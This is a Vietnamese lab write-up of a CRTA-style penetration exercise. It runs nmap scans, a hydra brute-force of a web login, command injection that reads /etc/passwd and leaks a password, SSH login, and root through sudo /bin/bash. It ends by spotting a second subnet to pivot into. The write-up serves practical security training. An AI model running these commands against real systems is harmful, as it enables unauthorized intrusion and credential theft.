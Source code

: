 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. 192.168.80.1 chỉ mở ra trang của pfsense. Quét tiếp vào IP 192.168.80.10:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[CRTA_img1.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
Not working. Xin lỗi vì phải xem qua wu một chút =((
Có vẻ ta cần tận dụng chức năng đăng ký và đăng nhập của website.
Ta sẽ đăng ký một cred đơn giản là 123:123 ; ta sẽ truy cập được dashboard:
![[CRTA_img2.png]]
Có vẻ có một vài chức năng liên quan đến search, tôi nghĩ tôi sẽ tìm xem có bất kỳ lỗi SQL nào hay không, hoặc có thể là command injection.
Oke, ta có thể tìm email qua this one:
![[Pasted image 20250903195402.png]]
Một điều thú vị là nếu ta dùng Burp Suite hoặc CAIDO để xem respond website thì:
![[Pasted image 20250903195509.png]]
![[Pasted image 20250903201205.png]]
Gửi nó đến repeater và thử với lệnh "ls". Ta thấy respond trả về một danh sách các file. Thử truy cập chúng nào.
Có vẻ không có gì, thử dump vào /etc/passwd?![[Pasted image 20250903201451.png]]
Oh shiet, ta có thể tìm được privsec:
```Bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```
Thử truy cập ssh nhỉ:
```Bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh privilege@$target 
The authenticity of host '192.168.80.10 (192.168.80.10)' can't be established.
ED25519 key fingerprint is SHA256:RHpGTqvkXkAP6/HA3vpHP8gkrtApbfyYYjteCh3N/TE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.80.10' (ED25519) to the list of known hosts.
privilege@192.168.80.10's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

273 updates can be applied immediately.
273 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Wed Sep  3 18:02:08 2025 from 10.10.200.80
privilege@ubuntu-virtual-machine:~$
```
Nice. Check sơ qua thì có một thứ rất đặc biệt:
```Bash
sudo -l
```
Ta có quyền của sudo, nên chỉ cần khai thác vào:
```Bash
privilege@ubuntu-virtual-machine:~$ sudo /bin/bash
root@ubuntu-virtual-machine:/home/privilege#
```
Lên được root rồi, hè hè. Check vài thứ nữa đi:
```Bash
ip a
```
```Bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:28:1b:7e brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    inet 192.168.98.15/24 brd 192.168.98.255 scope global noprefixroute ens34
       valid_lft forever preferred_lft forever
3: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:96:17:f9 brd ff:ff:ff:ff:ff:ff
    altname enp2s0
    inet 192.168.80.10/24 brd 192.168.80.255 scope global noprefixroute ens32
       valid_lft forever preferred_lft forever
```
Để ý dòng này:
```Bash
2: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:28:1b:7e brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    inet ==192.168.98.15/24== brd 192.168.98.255 scope global noprefixroute ens34
```
Có vẻ máy linux này đang được connect vào 192.168.98.15/24. Oke, có vẻ ta sẽ tận dụng từ đây.